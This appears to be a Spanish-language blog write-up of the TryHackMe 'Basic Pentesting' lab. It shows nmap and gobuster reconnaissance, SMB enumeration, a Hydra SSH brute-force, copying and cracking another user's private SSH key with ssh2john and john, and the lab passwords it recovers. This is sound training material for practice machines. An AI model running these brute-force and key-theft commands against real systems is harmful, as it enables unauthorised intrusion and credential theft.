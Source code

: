 ```yaml
---
layout: post
title: "Write Up Basic Pentesting."
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Linux,THM,SMB,Brute-Forcing,Hydra,Reconnaissance,SSH,id_rsa,Default-Credentials]
image:
  path: /assets/img/basic_pentesting/moMbBki.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.202.116 -oG allports
```

### Services and Versions


```bash
nmap -sCV -p22,80,139,445,8009,8080 10.10.202.116 -oN target -Pn
```


![list](/assets/img/basic_pentesting/Kali-2022-09-18-17-48-43.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis

### HTTP TCP-80

Investigamos el servicio http que corre en el pueto 80 ,vemos que podemos loogearnos ,haciendo pass-desing, no logramos nada y aunque nos de unas credenciales legibles depues de cancelar no son validas son: user `tomcat` password `s3cret`.


![list](/assets/img/basic_pentesting/Kali-2022-09-18-17-50-58.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Hacemos ctrl + u para ispeccionar la pagina, econtrandonos con una pista.


Fuzzeamos la direccion IP para enumerar posibles direcctorios y nos encontramos el directorio `/development/`.


```bash
gobuster dir -u http://10.10.202.116 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
```


![list](/assets/img/basic_pentesting/Kali-2022-09-18-17-52-25.png){:.lead width="800" height="100" loading="lazy"}


Si nos movemos a esa ruta en el navegador nos encontramos dos archivos uno con la version y otra que nos detalla que las pass es facil de crackear.


![list](/assets/img/basic_pentesting/Kali-2022-09-18-17-56-00.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
El archivo dev.txt contiene la version.


![list](/assets/img/basic_pentesting/Kali-2022-09-18-17-56-05.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El archivo j.txt nos dice que facilmente crakeable.


Con **cracmapecxec** verificamos si el smb esta firmado y nos arroja alguna informacion, con smbclient enumeramos los shares, por lo que se ve hay dos y presumiblemente el que dice anonymous se pueda entrar como ese usuario, ademas si agregamos el parametro -R podemos ver el recurso de forma recursiva encontratdonos un archivo `staff.txt`.


![list](/assets/img/basic_pentesting/Kali-2022-09-18-18-04-12.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El archivo staff solo contiene una conversacion ente jan y kay que tambien aparecen esa siglas en los archivos.txt anteriores por lo que deducimos que son usuarios del sistema a esta conclusion tambien podemos llegar si usamos la herramienta enum4linux.


```bash
enum4linux -a 10.10.202.116
```


***

## Exploitation


Con los usuarios enumerados podemos probar utilizar Hydra pa crackear las contraseñas con el siguiente comando.


```bash
hydra -l jan -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.202.116
```

![list](/assets/img/basic_pentesting/Kali-2022-09-18-20-30-56.png){:.lead width="800" height="100" loading="lazy"}


Podriamos probar lo mismo para kay pero jan es vulnerable.
{:.note}


La pass es `armando` por lo caul nos conectamos por ssh, dentro de la maquina nos movemos buscando las flags o archivos de interes no encontramos con un `pass.bak` que es simplemente la backup de la pass pero a la cual no tenemos permisos de lectura por lo que siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios.


## Escalacion de privilegios 


LimEnum dice que en la carpeta oculta .ssh hay claves privadas expuestas por lo cual las copiaremos a la maquina atacante y trataremos de crackearlas.


```bash
scp jan@10.10.120.64:/home/kay/.ssh/id_rsa .
```


{:.note}
Podriamos simplemete copiar y pegar pero a veces si ho hay una sell interactiva en la victima se puede coromper la copia, se puede hacer de cualquier forma.


Le damos permisos `chmod 600 id_rsa` y ssh2john pasamos la id_rsa a texto plano para a posterion con john crackearla.


```bash
ssh2john id_rsa > id_rsa.txt
```


```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt id_rsa.txt
```


Luego nos conectamos por ssh y colocamos la contraseña que es `beeswax`.


```bash
ssh kay@10.10.202.116 -i id_rsa
```


![list](/assets/img/basic_pentesting/Kali-2022-09-18-21-12-41.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Nos va apedir la contraseña debmos pegar `beeswax`.



Ya lo ultimo sera localizar el archivo al que antes no teniamos permisos `cat pass.bak`.


![list](/assets/img/basic_pentesting/Kali-2022-09-18-21-17-45.png){:.lead width="800" height="100" loading="lazy"}


```bash
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```


***
```bash
🎉 Felicitaciones ya has comprometido Basic Pentesting de Try Hack Me 🎉
```
{:.centered}
***

Back to [Certification eJPTv2 ](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

